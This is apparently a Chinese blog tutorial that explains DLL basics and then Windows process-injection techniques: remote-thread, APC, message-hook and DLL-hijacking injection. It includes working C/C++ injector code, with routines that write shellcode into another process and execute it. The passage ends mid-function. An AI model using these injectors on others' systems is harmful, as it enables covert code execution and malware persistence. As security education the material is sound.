




# 前言

DLL（Dynamic Link Library，动态链接库）是 Windows 下的一种可执行模块，  
可以被多个程序同时加载使用。可以导出函数  

常见用途：

* 封装公共函数（比如数学库、图形库）

* 插件系统（比如浏览器插件）

* 逆向工程与注入（CTF、安全研究中常用）

# DLL基础：

## DllMain：

* dll**没有 `main` 或 `WinMain`**。

* 它有一个可选的 **`DllMain`** 入口点函数。这个函数**不是**给普通用户调用的，而是**操作系统加载器**在特定事件发生时（DLL 被加载、卸载、进程创建线程、线程结束）自动调用的。

* 它的主要目的是进行**初始化和清理工作**（例如，创建/销毁全局对象、初始化线程本地存储 TLS）。如果不需要这些，完全可以不实现 `DllMain`。

```c
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH: // DLL被映射到进程的地址空间
            // 初始化代码，例如创建互斥体、加载资源
            break;
        case DLL_THREAD_ATTACH: // 进程创建了一个新线程
            // 线程相关的初始化
            break;
        case DLL_THREAD_DETACH: // 线程正常退出
            // 线程相关的清理
            break;
        case DLL_PROCESS_DETACH: // DLL被从进程的地址空间卸载
            // 清理代码，例如释放资源
            break;
    }
    return TRUE; // 返回TRUE表示成功
}
```

## 导出函数，有两种方式：

### 写.def文件

```c
; mylib.def
LIBRARY "MyLibrary"
EXPORTS
    AddFunction @1
    MultiplyFunction @2
    MyExportedVariable DATA ; 导出变量需要DATA关键字
```

然后在编译时链接这个文件。这种方式可以精确控制导出函数的名字和序号。

### 使用关键字（更常见）

可在如下所示的函数声明中使用 **__declspec(dllexport)** 关键字。

```c
__declspec(dllexport) double WINAPI my_C_export(double x)
{
/* Modify x and return it. */
    return x * 2.0;
}
```

必须在声明的最左侧添加 **__declspec(dllexport)** 关键字。 这种方法的优点是该函数不需要在 DEF 文件中列出，并且导出状态与定义一致。

如果要避免使用 C++ 名称修饰来提供 C++ 函数，必须按如下方式声明函数。

```c
extern "C"
__declspec(dllexport) double WINAPI my_undecorated_Cpp_export(double x)
{
// Modify x and return it.
    return x * 2.0;
}
```

链接器将使该函数显示为 my_undecorated_Cpp_export，即源代码中显示的名称，没有任何修饰。

# 编写一个dll并编译

mydll.h

```c
#pragma once


__declspec(dllexport) int add(int a, int b);

__declspec(dllexport) int mul(int a, int b);t b);
```

这里我们下面的源文件是.c，所以不加extern "C"

mydll.c

```c
#include "mydll.h"
#include <stdio.h>
#include <windows.h>
int add(int a, int b)
{
    return a + b;
}
int mul(int a, int b)
{
    return a * b;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    return TRUE;
}
```

编译指令：

```shell
gcc -shared -o mydll.dll mydll.c -Wl,--out-implib,libmydll.a
```

解释一下参数：

* `-shared`：告诉 gcc 生成动态链接库

* `-o mydll.dll`：输出 DLL 文件

* `-Wl,--out-implib,libmydll.a`：同时生成一个静态导入库（方便别人链接）

这里的静态导入库的作用是可以把dll和exe合成一个文件。方便发布,一般我们直接**gcc -shared -o mydll.dll mydll.c**就可以

main.c（测试函数）

```c
#include<stdio.h>
#include<windows.h>
typedef int  (*add_t)(int,int);
typedef int  (*mul_t)(int,int);
int main()
{
    HMODULE h = LoadLibraryA("C:\\Users\\Lenovo\\OneDrive\\Desktop\\c++andpy\\cpp\\mydll\\mydll.dll"); // 或者写绝对路径
    if (!h) {
        printf("LoadLibrary failed: %lu\n", GetLastError());
        return 1;
    }
    add_t add = (add_t)GetProcAddress(h, "add");
    mul_t mul = (mul_t)GetProcAddress(h, "mul");
    int a=10,b=20;
    int sum;
    sum=add(a,b);
    printf("sum=%d\n",sum);
    int m=mul(a,b);
    printf("mul=%d\n",m);
    return 0;
}
```

运行结果：

```shell
sum=30
mul=200
```

# DLL调试：

dll调试如果用vscode的话太逆天，掌握不好注入器和被注入exe之间的关系，用vs就很轻松

   

右键我们的文件夹，点最下面的属性



然后配置类型需要改成动态库.dll



在调试的行那，右边的命令放要注入的exe路径，然后在我们的dll对应的.c文件那直接像正常的.c文件那样下断点就可以了



然后直接运行这个dll对应的.c源程序，在exe文件的进程空间导入dll文件（dll注入或loadlibrary）后，我们就可以正常调试了

# DLL注入

dll注入目的是把我们写好的dll文件，通过各种方式把这个dll文件注入到已经存在的pe进程里。我们在这个dll注入专题只讲原理，具体代码实现不用深究，毕竟用的时候不需要重复造轮子，不过也可以自己练习写一遍，加深印象。

## 远程线程调用：

下面我们会用到一些windows库里的函数。先带大家复习一下：

```c
HANDLE OpenProcess(
  DWORD dwDesiredAccess, //渴望得到的访问权限（标志）
  BOOL bInheritHandle, // 是否继承句柄
  DWORD dwProcessId// 进程标示符
  );

LPVOID VirtualAllocEx(
  HANDLE hProcess,            // [输入] 目标进程的句柄。该句柄必须拥有 PROCESS_VM_OPERATION 访问权限。
  LPVOID lpAddress,           // [输入] 指定想要分配的起始地址。通常设为 NULL，由系统自动决定分配在哪里。
  SIZE_T dwSize,              // [输入] 要分配的内存大小（以字节为单位）。
  DWORD  flAllocationType,    // [输入] 内存分配类型。常用 MEM_COMMIT | MEM_RESERVE (提交并保留)。
  DWORD  flProtect            // [输入] 内存页面的保护属性。注入代码通常需要 PAGE_EXECUTE_READWRITE (可读可写可执行)。
);
// 返回值：如果成功，返回分配内存的基址；如果失败，返回 NULL。

BOOL WriteProcessMemory(
  HANDLE  hProcess,           // [输入] 目标进程的句柄。该句柄必须拥有 PROCESS_VM_WRITE 和 PROCESS_VM_OPERATION 访问权限。
  LPVOID  lpBaseAddress,      // [输入] 写入的目标地址。即 VirtualAllocEx 返回的那个地址。
  LPCVOID lpBuffer,           // [输入] 本地缓冲区指针，包含要写入的数据（如 Shellcode 或 DLL 路径字符串）。
  SIZE_T  nSize,              // [输入] 要写入的字节数。
  SIZE_T  *lpNumberOfBytesWritten // [输出] 指向一个变量的指针，用于接收实际写入了多少字节。如果不需要知道，可设为 NULL。
);
// 返回值：如果成功，返回非零值 (TRUE)；如果失败，返回 0 (FALSE).

HANDLE CreateRemoteThread(
  HANDLE                 hProcess,          // [输入] 目标进程的句柄。该句柄必须拥有 PROCESS_CREATE_THREAD 等相关权限。
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,// [输入] 线程的安全描述符。通常设为 NULL（使用默认安全描述符）。
  SIZE_T                 dwStackSize,       // [输入] 线程的初始栈大小。设为 0 表示使用默认大小。
  LPTHREAD_START_ROUTINE lpStartAddress,    // [输入] 线程函数的起始地址。
                                            //        如果是 DLL 注入，这里通常是 LoadLibrary 的地址；
                                            //        如果是 Shellcode，这里是 Shellcode 在目标进程中的地址。
  LPVOID                 lpParameter,       // [输入] 传递给线程函数的参数指针。
                                            //        如果是 DLL 注入，这里是目标进程中 DLL 路径字符串的地址；
                                            //        如果是 Shellcode，通常设为 NULL 或者传入上下文数据。
  DWORD                  dwCreationFlags,   // [输入] 线程创建标志。0 表示立即运行；CREATE_SUSPENDED 表示创建后挂起。
  LPDWORD                lpThreadId         // [输出] 指向一个变量的指针，用于接收新线程的 ID。如果不需要，可设为 NULL。
);
// 返回值：如果成功，返回新线程的句柄；如果失败，返回 NULL。
```


远程线程注入是指一个进程在另一个进程中创建线程的技术，通常用于注入dll或shellcode

我们有一个dll文件和和一个pe文件，我们要做的就是编写一个新的可执行文件，把这个dll文件加载进pe文件里

### 1.加载pe文件：

```c
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, <pid>);
```

### 2.通过句柄向被注入进程申请可写可执行空间:

```c
LPVOID lpBaseAddress = VirtualAllocEx(hProcess, 0, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

### 3.dll地址写入内存：

```c
char path[]="c:/test/test.dll";
WriteProcessMemory(hProcess, lpBaseAddress, path, sizeof(path), NULL);
```

### 4.获取LoadlibaryA地址：

```cpp
LPTHREAD_START_ROUTINE pLoadlibrary = (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");
```

### 5.调用：

```c
CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)pLoadlibrary, lpBaseAddress, 0, 0);
```


再稍微补充一下，这里如果是把注入对象是shellcode的话，第3步开始不一样：

```c
char shellcode[]="XXXXXX";
WriteProcessMemory(hProcess, lpBaseAddress, shellcode, sizeof(shellcode), NULL); 
CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)lpBaseAddress, 0, 0, 0);
```

这样就把恶意代码注入并执行了。后面看有没有时间写一下对应防御怎么做


## APC注入：

### APC 队列正常是干什么用的？

APC 全称 ：Asynchronous Procedure Call（异步过程调用）。

对于线程来说它的本职工作就是处理正在运行的exe里的代码。但有的时候os内核和一些驱动程序、I/O 系统等等想插队，让线程先处理他们的事，但是这时候线程有自己的事要干，所以就先把这些插队的请求塞到**APC队列**里


### 什么时候线程会抽空看一下**APC队列**内的任务并执行它呢？

简单来说：**线程并不是随时随地都会查看 APC 队列的。**

只有当线程主动进入 **“可警告状态” (Alertable State)** 时，操作系统才会检查它的 APC 队列，并执行里面的任务。


你可以把**可警告状态**理解为线程的一种 **“待机模式”**。

* **忙碌状态**：线程正在狂算数据（CPU 占用高），这时候它是个聋子，听不到 APC 的呼唤。

* **普通等待**：线程调用普通的 `Sleep(1000)` 或 `WaitForSingleObject`。这时候它在睡觉，而且告诉操作系统：“别吵我，雷打不动”。APC 任务会被积压，无法执行。

* **可警告等待 (Alertable Wait)**：线程调用了 **带 `Ex` 后缀** 的等待函数。这时候它在睡觉，但告诉操作系统：“我有空，如果有 APC 任务（比如 I/O 完成了，或者有人注入代码了），**叫醒我**，我先起来把任务办了再继续睡。”

### 编码思路：

* **获取线程列表**：找到目标进程里所有的 Thread ID。

* **实现 DLL 注入**：把 `LoadLibrary` 当作任务分发给所有线程。

* **实现 Shellcode 注入**：把 Shellcode 的起始地址当作任务分发给所有线程。
  **1.获取线程列表：**

```c++
// 获取目标进程的所有线程 ID
    // 尽管名字带 32，但在 64 位编译下它能正确获取 64 位线程快照
    std::vector<DWORD> GetAllThreadIds(DWORD targetPid) {
        std::vector<DWORD> threads;

        // [API] CreateToolhelp32Snapshot: 创建指定进程、堆、模块和线程的快照
        // 参数 TH32CS_SNAPTHREAD: 表示我们在快照中包含系统中的所有线程
        // 参数 0: 对于 SNAPTHREAD 标志，进程 ID 参数被忽略（即获取全系统线程）
        HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
        if (hSnapshot == INVALID_HANDLE_VALUE) return threads;

        THREADENTRY32 te32;
        te32.dwSize = sizeof(THREADENTRY32);

        // [API] Thread32First: 检索快照中遇到的第一个线程的信息
        if (Thread32First(hSnapshot, &te32)) {
            do {
                // 校验结构体大小，防止版本不匹配
                if (te32.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(te32.th32OwnerProcessID)) {
                    // 筛选：只记录属于目标进程(targetPid)的线程
                    if (te32.th32OwnerProcessID == targetPid) {
                        threads.push_back(te32.th32ThreadID);
                    }
                }
                // [API] Thread32Next: 检索快照中记录的下一个线程的信息，用于循环遍历
            } while (Thread32Next(hSnapshot, &te32));
        }

        // [API] CloseHandle: 用完句柄必须关闭，防止资源泄露
        CloseHandle(hSnapshot);
        return threads;
    }
```


**2.进行dll注入**

```cpp
// APC - DLL 注入
    bool Inject_APC_DLL(DWORD pid, const std::wstring& dllPath) {
        // [API] OpenProcess: 打开现有的本地进程对象
        // 参数 PROCESS_ALL_ACCESS: 请求最高权限（读、写、执行等）
        // 参数 FALSE: 句柄不继承
        // 参数 pid: 目标进程 ID
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
        if (!hProcess) return false;

        // 1. 写入 DLL 路径
        size_t pathSize = (dllPath.length() + 1) * sizeof(wchar_t);

        // [API] VirtualAllocEx: 在指定进程的虚拟地址空间中分配内存
        // 参数 NULL: 让系统决定地址
        // 参数 pathSize: 分配多大
        // 参数 MEM_COMMIT: 提交物理内存
        // 参数 PAGE_READWRITE: 内存保护属性，只需读写即可（存放字符串）
        void* pRemoteMem = VirtualAllocEx(hProcess, NULL, pathSize, MEM_COMMIT, PAGE_READWRITE);
        if (!pRemoteMem) { CloseHandle(hProcess); return false; }

        // [API] WriteProcessMemory: 将数据写入指定进程的内存区域
        // 参数 pRemoteMem: 目标地址
        // 参数 dllPath.c_str(): 源数据（本地 DLL 路径字符串）
        if (!WriteProcessMemory(hProcess, pRemoteMem, dllPath.c_str(), pathSize, NULL)) {
            // [API] VirtualFreeEx: 如果写入失败，释放刚才申请的远程内存
            VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }

        // 2. 获取 LoadLibraryW 地址
        // [API] GetModuleHandleW: 获取 kernel32.dll 的模块句柄（它常驻内存）
        HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
        // [API] GetProcAddress: 获取 LoadLibraryW 函数的地址
        // 注意：因为系统 DLL 在所有进程中的基址通常相同，所以我们可以直接用本地获取的地址
        PAPCFUNC pLoadLibrary = (PAPCFUNC)GetProcAddress(hKernel32, "LoadLibraryW");

        // 3. 遍历线程并插入 APC
        auto threads = GetAllThreadIds(pid);
        int successCount = 0;

        for (DWORD tid : threads) {
            // [API] OpenThread: 打开线程句柄
            // 参数 THREAD_SET_CONTEXT: 这是 APC 注入的关键权限！必须拥有此权限才能修改线程上下文/插入 APC
            HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, tid);
            if (hThread) {
                // [API] QueueUserAPC: 核心函数，往线程的 APC 队列插入任务
                // 参数 pLoadLibrary: 目标线程要执行的函数地址
                // 参数 hThread: 目标线程句柄
                // 参数 (ULONG_PTR)pRemoteMem: 传给函数的参数（这里是 DLL 路径的地址）
                if (QueueUserAPC(pLoadLibrary, hThread, (ULONG_PTR)pRemoteMem)) {
                    successCount++;
                }
                CloseHandle(hThread);
            }
        }

        CloseHandle(hProcess);
        return successCount > 0;
    }
```

**3.shellcode注入逻辑**

```cpp
// APC - Shellcode 注入
    bool Inject_APC_Shellcode(DWORD pid, const std::vector<unsigned char>& shellcode) {
        if (shellcode.empty()) return false;

        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
        if (!hProcess) return false;

        // 1. 写入 Shellcode
        // [API] VirtualAllocEx
        // 参数 PAGE_EXECUTE_READWRITE: 关键区别！因为存的是机器码，必须赋予“执行”权限，否则触发 DEP 崩溃
        void* pRemoteMem = VirtualAllocEx(hProcess, NULL, shellcode.size(), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        if (!pRemoteMem) { CloseHandle(hProcess); return false; }

        // [API] WriteProcessMemory
        if (!WriteProcessMemory(hProcess, pRemoteMem, shellcode.data(), shellcode.size(), NULL)) {
            VirtualFreeEx(hProcess, pRemoteMem, 0, MEM_RELEASE);
            CloseHandle(hProcess);
            return false;
        }

        // 2. 这里的入口地址就是 Shellcode 在内存中的地址
        PAPCFUNC pShellcodeEntry = (PAPCFUNC)pRemoteMem;

        auto threads = GetAllThreadIds(pid);
        int successCount = 0;

        for (DWORD tid : threads) {
            HANDLE hThread = OpenThread(THREAD_SET_CONTEXT, FALSE, tid);
            if (hThread) {
                // [API] QueueUserAPC
                // 参数 pShellcodeEntry: 直接把 Shellcode 首地址作为函数执行
                // 参数 0: Shellcode 通常是自包含的，不需要参数，传 0 即可
                if (QueueUserAPC(pShellcodeEntry, hThread, 0)) {
                    successCount++;
                }
                CloseHandle(hThread);
            }
        }

        CloseHandle(hProcess);
        return successCount > 0;
    }
```

APC注入是一种隐形注入，必须等到我们注入的线程进入**可警告等待**，dll才会进到exe的内存空间

## 消息钩子注入

### 核心原理

这种方法的逻辑是利用 Windows 的消息机制。

1. **准备**：我们在注入器里加载你的 DLL。

2. **下钩**：我们告诉操作系统，“我想监听目标进程（PID）的某个线程的消息（比如窗口消息 `WH_GETMESSAGE`）”。

3. **规则**：Windows 规定，如果钩子函数在 DLL 里，那么当目标线程收到消息时，**操作系统必须把这个 DLL 注入到目标进程里**，才能执行那个钩子函数。

4. **触发**：我们给目标线程发个空消息，Windows 就会自动完成注入。
   
   

### 使用这种方法的前置条件

`SetWindowsHookEx` 需要一个 **回调函数地址 (Hook Procedure)**。对于通用的注入器，我们无法预知你的 DLL 里函数名叫什么。 **行业惯例**：我们将尝试获取 DLL 的 **第 1 个导出函数 (Ordinal 1)** 作为钩子函数。

* **这意味着**：你的测试 DLL 必须至少导出一个函数（随便什么函数都行），否则注入会失败。
  
  

### 编码思路

- 寻找目标进程的ui线程

- 写注入dll逻辑
  
  

**1.寻找目标进程的ui线程**

```cpp
    // =============================================================
    // 辅助结构与函数: 寻找目标进程的 UI 线程
    // =============================================================
    struct FindWindowData {
        DWORD pid;
        DWORD threadId;
    };

    // EnumWindows 的回调函数 (系统每找到一个窗口就会调一次这个函数)
    BOOL CALLBACK EnumWindowsProc(HWND hwnd, LPARAM lParam) {
        FindWindowData* data = (FindWindowData*)lParam;
        DWORD processId = 0;

        // [API] GetWindowThreadProcessId
        // 作用：通过窗口句柄 (hwnd) 查户口。
        // 参数 1: 窗口句柄。
        // 参数 2 (&processId): [输出] 把这个窗口属于哪个进程 PID 写到这个变量里。
        // 返回值: 这个窗口是由哪个线程 (Thread ID) 创建的。
        DWORD threadId = GetWindowThreadProcessId(hwnd, &processId);

        // [API] IsWindowVisible
        // 作用：判断窗口是否可见（肉眼能看到）。
        // 逻辑：我们只关心属于目标进程(data->pid)且可见的窗口。
        // 因为不可见的隐藏窗口通常不处理消息，注入进去也没法触发。
        if (processId == data->pid && IsWindowVisible(hwnd)) {
            data->threadId = threadId;
            return FALSE; // 找到了，返回 FALSE 告诉系统“不用再找了”
        }
        return TRUE; // 没找到，返回 TRUE 告诉系统“继续找下一个窗口”
    }

    // 根据 PID 获取一个 UI 线程 ID
    DWORD GetUIThreadId(DWORD pid) {
        FindWindowData data = { pid, 0 };

        // [API] EnumWindows
        // 作用：遍历屏幕上所有的顶层窗口。
        // 参数 1: 回调函数地址。系统每找到一个窗口，就会去执行 EnumWindowsProc。
        // 参数 2: 自定义参数。我们把 data 的地址传进去，方便回调函数把结果写回来。
        EnumWindows(EnumWindowsProc, (LPARAM)&data);
        return data.threadId;
    }

```

**2.hook逻辑**

```cpp
bool Inject_Hook_DLL(DWORD pid, const std::wstring& dllPath) {
        // 1. 寻找 UI 线程
        DWORD threadId = GetUIThreadId(pid);
        if (threadId == 0) {
            std::cerr << "[-] 未找到 UI 线程！Hook 注入通常需要目标有窗口。" << std::endl;

            // [API] MessageBoxW
            // 作用：弹出一个简单的提示框。
            // 参数 MB_ICONERROR: 显示一个红色的错误图标 X。
            MessageBoxW(NULL, L"目标进程没有可见窗口，无法使用消息钩子注入。", L"错误", MB_ICONERROR);
            return false;
        }

        // 2. 在注入器本地加载 DLL
        // [API] LoadLibraryW
        // 作用：把 DLL 文件加载到 *当前进程* (注入器) 的内存里。
        // 为什么：因为 SetWindowsHookEx 需要传一个“导出函数的内存地址”。
        // 我们必须先把它载入自己的内存，算出这个地址，然后告诉操作系统：“以后别的进程要用这个函数，就在这个相对位置找”。
        HMODULE hDll = LoadLibraryW(dllPath.c_str());
        if (!hDll) {
            std::cerr << "[-] 无法加载 DLL 文件。路径正确吗？" << std::endl;
            return false;
        }

        // 3. 获取导出函数地址 (Hook Procedure)
        // [API] GetProcAddress
        // 作用：在 DLL 的导出表里查找函数的地址。
        // 参数 (LPCSTR)1: 这里我们用了“序号查找” (Ordinal 1)。
        // 意思是：我不管你函数名叫什么，给我拿第 1 个导出的函数来。
        // (这就是为什么你的 DLL 必须加 __declspec(dllexport))
        HOOKPROC pFn = (HOOKPROC)GetProcAddress(hDll, (LPCSTR)1);

        if (!pFn) {
            std::cerr << "[-] DLL 没有导出函数！Hook 注入需要 DLL 至少导出一个函数。" << std::endl;

            // [API] FreeLibrary
            // 作用：释放 DLL，减少引用计数。如果计数为0，从内存卸载。
            // 既然失败了，就把刚才加载的 DLL 卸掉，别占茅坑不拉屎。
            FreeLibrary(hDll);
            return false;
        }

        // 4. 安装钩子 (WH_GETMESSAGE)
        // [API] SetWindowsHookExW (核心中的核心)
        // 作用：设立“安检规则”。
        // 参数 1 (WH_GETMESSAGE): 钩子类型。表示我们要拦截“消息队列里取出的消息”。
        // 参数 2 (pFn): 钩子函数地址。就是那个“特工”的代码位置。
        // 参数 3 (hDll): 特工所属的单位（DLL 模块句柄）。
        // 参数 4 (threadId): 目标线程 ID。指定只监听这一个线程。
        // 原理：一旦调用成功，Windows 为了让目标线程能执行 pFn，会自动把 hDll 注入到目标进程。
        HHOOK hHook = SetWindowsHookExW(WH_GETMESSAGE, pFn, hDll, threadId);

        if (!hHook) {
            // [API] GetLastError
            // 作用：如果上一条 API 失败了，这里返回具体的错误代码（比如 5=拒绝访问）。
            std::cerr << "[-] SetWindowsHookEx 失败! Error: " << GetLastError() << std::endl;
            FreeLibrary(hDll);
            return false;
        }

        std::cout << "[+] 钩子已安装。正在触发..." << std::endl;

        // 5. 触发钩子
        // [API] PostThreadMessageW
        // 作用：往目标线程的信箱（消息队列）里塞一封信。
        // 参数 WM_NULL: 一封空信，啥内容没有。
        // 目的：目标线程可能正在睡觉。塞封信把它叫醒，它一处理信件，就会触发我们的钩子，进而加载 DLL。
        PostThreadMessageW(threadId, WM_NULL, 0, 0);

        // 6. 等待并清理
        std::cout << "[*] 等待注入生效..." << std::endl;

        // [API] Sleep
        // 作用：暂停 1000 毫秒 (1秒)。让子弹飞一会儿，给目标一点时间去加载 DLL。
        Sleep(1000); 

        // [API] UnhookWindowsHookEx
        // 作用：撤销“安检规则”。
        // 为什么：注入已经完成了，特工已经在屋里了。如果不撤销，每来一个消息都要检查，系统会变卡。
        UnhookWindowsHookEx(hHook);

        // 释放本地的 DLL
        FreeLibrary(hDll);

        std::cout << "[+] 流程结束。DLL 应该已经留在目标进程里了。" << std::endl;
        return true;
    }
```

## 文件劫持注入


Windows 程序在加载 DLL（比如 `version.dll`）时，有一套固定的搜索顺序。它会**优先**在**应用程序当前目录**寻找。

* **正常情况**：程序启动 -> 当前目录没找到 `version.dll` -> 去 `C:\Windows\System32` 找 -> 找到并加载。

* **劫持情况**：你把你的 DLL 改名为 `version.dll` 放在程序旁边 -> 程序启动 -> **当前目录找到了！** -> 加载你的 DLL -> 你的代码执行。

**简单来说**：就是冒充系统 DLL，站在门口截胡。

但是我们需要在想要注入的dll转发原dll中有的函数，我们需要在dll中再进行转发，否则进程可能找不到对应函数会崩溃

实现代码也比较简单：

```cpp
/**
 * 文件名: src/methods/method_hijack.cpp
 * 作用: 实现智能 DLL 劫持
 * 修复: 解决了 'jump to label crosses initialization' 编译错误
 * (将变量声明提前到 goto 之前)
 */

#include "injector_methods.h"
#include <windows.h>
#include <iostream>
#include <vector>
#include <string>
#include <algorithm>
#include <set>
#include <shlwapi.h> // PathRemoveFileSpec

#pragma comment(lib, "shlwapi.lib")

namespace methods {

    const std::vector<std::wstring> HIJACK_CANDIDATES = {
        L"version.dll",
        L"winmm.dll",
        L"dwmapi.dll",
        L"uxtheme.dll",
        L"dbghelp.dll",
        L"wtsapi32.dll",
        L"cryptbase.dll",
        L"userenv.dll"
    };

    std::wstring GetDirectoryFromPath(const std::wstring& path) {
        wchar_t buffer[MAX_PATH];
        wcscpy_s(buffer, path.c_str());
        PathRemoveFileSpecW(buffer);
        return std::wstring(buffer);
    }

    DWORD RvaToOffset(DWORD rva, PIMAGE_SECTION_HEADER pSections, WORD nSections) {
        for (WORD i = 0; i < nSections; i++) {
            if (rva >= pSections[i].VirtualAddress && 
                rva < pSections[i].VirtualAddress + pSections[i].Misc.VirtualSize) {
                return rva - pSections[i].VirtualAddress + pSections[i].PointerToRawData;
            }
        }
        return 0;
    }

    std::set<std::wstring> GetImportedDlls(const std::wstring& exePath) {
        std::set<std::wstring> imports;

        // 变量提前声明 (修复 goto 报错)
        PIMAGE_DOS_HEADER pDos = nullptr;
